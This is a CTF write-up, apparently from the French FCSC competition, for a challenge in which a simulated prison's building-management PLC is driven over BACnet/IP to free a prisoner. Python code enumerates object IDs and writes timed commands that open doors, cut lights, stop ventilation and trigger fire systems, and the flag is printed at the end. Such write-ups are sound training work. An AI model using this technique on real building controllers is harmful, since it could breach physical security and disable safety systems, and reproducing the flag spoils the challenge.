


# Prison Break 2/2

## Challenge
Dans cette deuxième partie du challenge Prison break, votre objectif est de faire sortir un prisonnier de la prison dans un temps contraint. Pour cela, vous allez devoir envoyer des commandes à l'automate GTB qui contrôle :

- l'ouverture et la fermeture des portes ;
- la ventillation ;
- la lumière ;
- la sécurité incendie.

Les informations générales sur cette épreuve sont disponibles ici : https://france-cybersecurity-challenge.fr/prison-break

Carlos, bien évidement innocent, est enfermé dans une prison de haute sécurité. La gestion technique de batîment (GTB) de cette prison est contrôlée par un automate programmable industriel. L'accès à cet automate GTB a été rendu possible via un implant dissimulé lors d'une opération antérieure, celui-ci est accessible depuis l'extérieur de la prison via (protocole UDP) :

> nc -u prison-break.france-cybersecurity-challenge.fr 47808

## Inputs
- Plan of the prison and scenario to escape at https://france-cybersecurity-challenge.fr/prison-break
- Entry point at `prison-break.france-cybersecurity-challenge.fr:47808`
- SCADA web interface at https://prison-break.france-cybersecurity-challenge.fr/

## Analysis
This is 2nd part of the `Prison Break` challenge.
First part was about reading a `token` from some `Bacnet/IP` registers to access the `web api`.

We have a plan of the prison as below:



We also have a `detailed plan in 7 steps` to escape the prisoner `Carlos` and we have to `strictly` follow this steps and the corresponding `timing`. Here's a summary:
- `Step 1 (15s)`:
 - West ring: open all cells & main door
- `Step 2 (15s)`:
 - West ring: close main door
 - North ring: open fire security
- `Step 3 (5s)`:
 - North ring: stop ventilation and close main door
- `Step 4 (20s)`:
 - East ring: close lights
 - Center: close lights
 - Carlos: open cell
 - East ring: open principal door
- `Step 5 (5s)`:
 - Control 2: close door
- `Step 6 (15s)`:
 - SAS: open fire security
 - Avant-Poste: close lights
 - After few seconds, SAS: close doors
- `Step 7 (10s)`:
 - Control 2: open door
 - Main entrance: open doors

So we need to operate the doors, the light switches, the ventilation and the fire security systems remotely over the `BACnet/IP protocol` through the entrypoint that we're given (via the implant hidden in the prison).

But to do that, we need to identify how to actually operate this objects.

# Get the object IDs
From the first part, we were able to dump the list of objects by reading the `objectList`. This gives us a list of object IDs and types:

```python
objlist=[('device', 1556938), ('binaryValue', 1), ('binaryValue', 2), ('binaryValue', 3), ('binaryValue', 4), ('binaryValue', 5), ('binaryValue', 6), ('binaryValue', 7), ('binaryValue', 8), ('binaryValue', 9), ('binaryValue', 10), ('binaryValue', 11), ('binaryValue', 12), ('binaryValue', 13), ('binaryValue', 14), ('binaryValue', 15), ('binaryValue', 16), ('binaryValue', 17), ('binaryValue', 18), ('binaryValue', 19), ('binaryValue', 20), ('binaryValue', 21), ('binaryValue', 22), ('binaryValue', 23), ('binaryValue', 24), ('binaryValue', 25), ('binaryValue', 26), ('binaryValue', 27), ('binaryValue', 28), ('binaryValue', 29), ('binaryValue', 30), ('binaryValue', 31), ('binaryValue', 32), ('binaryValue', 33), ('binaryValue', 34), ('binaryValue', 35), ('binaryValue', 36), ('binaryValue', 37), ('binaryValue', 38), ('binaryValue', 39), ('binaryValue', 40), ('binaryValue', 41), ('binaryValue', 42), ('binaryValue', 43), ('binaryValue', 44), ('binaryValue', 45), ('binaryValue', 46), ('binaryValue', 47), ('binaryValue', 48), ('binaryValue', 49), ('binaryValue', 50), ('binaryValue', 51), ('analogValue', 1), ('analogValue', 2), ('analogValue', 3), ('analogValue', 4), ('characterstringValue', 1)]
```

Now we can read the `objectName` of each object, so we know what it corresponds to:
```python
def get_objids():
    ids = dict()
    bacnet.whois(target)
    for i in range (1, 52):
        n = bacnet.read(f"{target} binaryValue {i} objectName")
        ids[n] = i
    for i in range (1, 5):
        n = bacnet.read(f"{target} analogValue {i} objectName")
        ids[n] = i
    return ids
```

```console
$ python3 sol.py
(...)
{'porte_nord_1': 1, 'porte_nord_2': 2, 'porte_nord_3': 3, 'porte_nord_4': 4, 'porte_nord_5': 5, 'porte_nord_6': 6, 'porte_nord_7': 7, 'porte_nord_8': 8, 'porte_nord_principale': 9, 'porte_est_1': 10, 'porte_est_2': 11, 'porte_est_3': 12, 'porte_est_4': 13, 'porte_est_5': 14, 'porte_est_6': 15, 'porte_est_7': 16, 'porte_est_8': 17, 'porte_est_9': 18, 'porte_est_10': 19, 'porte_est_11': 20, 'porte_est_12': 21, 'porte_est_principale': 22, 'porte_ouest_1': 23, 'porte_ouest_2': 24, 'porte_ouest_3': 25, 'porte_ouest_4': 26, 'porte_ouest_5': 27, 'porte_ouest_6': 28, 'porte_ouest_7': 29, 'porte_ouest_8': 30, 'porte_ouest_9': 31, 'porte_ouest_10': 32, 'porte_ouest_11': 33, 'porte_ouest_12': 34, 'porte_ouest_principale': 35, 'porte_garde_1': 36, 'porte_garde_2': 37, 'porte_garde_3': 38, 'porte_garde_4': 39, 'porte_garde_5': 40, 'porte_garde_6': 41, 'porte_garde_principale': 42, 'sec_incendie_nord': 43, 'sec_incendie_est': 44, 'sec_incendie_ouest': 45, 'sec_incendie_garde': 46, 'lumiere_nord': 47, 'lumiere_est': 48, 'lumiere_ouest': 49, 'lumiere_garde': 50, 'lumiere_centre': 51, 'ventilation_nord': 1, 'ventilation_est': 2, 'ventilation_ouest': 3, 'ventilation_garde': 4}
```

Now that we know the object ID for each door, light switch, ventilation system and fire security system, we can interact with those.

## Interact with the objects over BACnet/IP
Updating the status of an object means writing its `presentValue` to `active` (resp. `inactive`) to `open` it (resp. `close`), so I used the helper functions.

For instance, to open the `west main door`, we simply call `open('porte_ouest_principale')` and this
will trigger this `write operation` over Bacnet/IP: `141.94.246.228 binaryValue 35 presentValue active`, where `35` is the `object ID` for that door.

```python
target = socket.gethostbyname("prison-break.france-cybersecurity-challenge.fr")

### Check status / Open / Close these: doors, fire security, light
def close(n):
    print(f"close {n}")
    bacnet.write(f"{target} binaryValue {objids[n]} presentValue inactive")

def open(n):
    print(f"open {n}")
    bacnet.write(f"{target} binaryValue {objids[n]} presentValue active")

### Set value for ventilation
def ventilation(n, v):
    print(f"ventilation {n} {v}")
    bacnet.write(f"{target} analogValue {objids[n]} presentValue {v}")
```

## Strict timing
To strictly respect the timing, I also start at timer to schedule the next step at the given timing. In the code snippet below, `step2` function is scheduled to be called `15s` after the beginning of `step1`:

```python
def step1():
    print("[+] Step 1 (15s)")
    timer = Timer(15, step2)
    timer.start()
    # west ring => open all cells & main door
    for i in range(12):
        open(f"porte_ouest_{i+1}")
    open('porte_ouest_principale')
```

## Escape sequence
Here's the escape sequence:

```python
def step7():
    print("[+] Step 7")
    # control 2: open door
    # main entrance: open doors
    open('porte_garde_3')
    open('porte_garde_5')
    open('porte_garde_6')

def step6bis():
    print("[+] Step 6is")
    # SAS: close doors
    close('porte_garde_1')
    close('porte_garde_principale')

def step6():
    print("[+] Step 6 (15s)")
    timer = Timer(15, step7)
    timer.start()
    # SAS: open fire security
    # Avant-Poste: close lights
    open('sec_incendie_garde')
    close('lumiere_garde')
    timer2 = Timer(8, step6bis)
    timer2.start()

def step5():
    print("[+] Step 5 (5s)")
    timer = Timer(5, step6)
    timer.start()
    # control 2: close door
    close('porte_garde_3')

def step4():
    print("[+] Step 4 (20s)")
    timer = Timer(20, step5)
    timer.start()
    # east ring: close lights
    # center: close lights
    # carlos: open cell
    # east ring: open principal door
    close('lumiere_est')
    close('lumiere_centre')
    open('porte_est_10')
    open('porte_est_principale')

def step3():
    print("[+] Step 3 (5s)")
    timer = Timer(5, step4)
    timer.start()
    # north ring => stop ventilation and close main door
    ventilation('ventilation_nord', 0)
    close('porte_nord_principale')

def step2():
    print("[+] Step 2 (15s)")
    timer = Timer(15, step3)
    timer.start()
    # - west ring  => close main door
    # - north ring => open fire security
    close('porte_ouest_principale')
    open('sec_incendie_nord')

def step1():
    print("[+] Step 1 (15s)")
    timer = Timer(13, step2)
    timer.start()
    # west ring => open all cells & main door
    for i in range(12):
        open(f"porte_ouest_{i+1}")
    open('porte_ouest_principale')

def prison_break():
    step1()

prison_break()
```

With this, we can successfully have Carlos escape the prison.

The flag is then displayed in the events log, on the web api.



## Python code
Complete solution in [sol.py](./sol.py)

# Flag
> FCSC{bd539d9aae28c88f9b38d9bbd123d9c2c86e09cbe6a47d2dc7f08e3276fa731e}
